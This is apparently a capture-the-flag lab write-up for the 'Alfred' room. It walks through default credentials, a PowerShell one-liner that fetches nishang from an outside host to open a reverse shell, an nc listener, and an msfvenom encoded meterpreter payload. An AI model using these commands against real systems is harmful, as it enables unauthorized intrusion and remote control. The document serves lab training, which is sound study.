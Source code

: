 # Alfred

> Nashia Holloway | April 30th, 2020

## Task 1 Initial Access

**1. How many ports are open?**

There are `3` ports open: 80, 8080, and 3389

**2. What is the username and password to login?**

`admin:admin`

**3. Find a feature of the tool that allows you to execute commands on the underlying system. Get a reverse shell this way.**

The feature is located in http://$IP:8080/job/project/configure. Next we need to create an http server with python. Need to use [nishang](https://github.com/samratashok/nishang).

```
python3 -m http.server 8000 --bind $IP
(in new tab)
nc -lvnp 9000
```

Code for web app:
```
powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
```

It took a while to figure out why the python server wasn't serving the powershell file. After binding to my specific port and IP instead of the default, it worked.

## Task 2 Switching Shells

Switch to a metepreter shell to make prive esc easier.

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=$IP LPORT=1337 -f exe -o shell.exe
```

